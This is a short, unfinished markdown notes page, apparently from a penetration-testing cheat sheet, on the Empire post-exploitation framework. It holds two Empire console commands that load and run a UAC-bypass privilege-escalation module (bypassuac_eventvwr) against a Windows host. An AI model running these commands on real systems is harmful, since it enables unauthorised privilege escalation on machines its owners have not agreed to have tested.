 # Empire

TODO: Fill this info

```
(Empire: WindowsWS01) > usemodule shell/privesc/bypassuac_eventvwr
```

```
(Empire: WindowsWS01) > bypassuac <listener>
```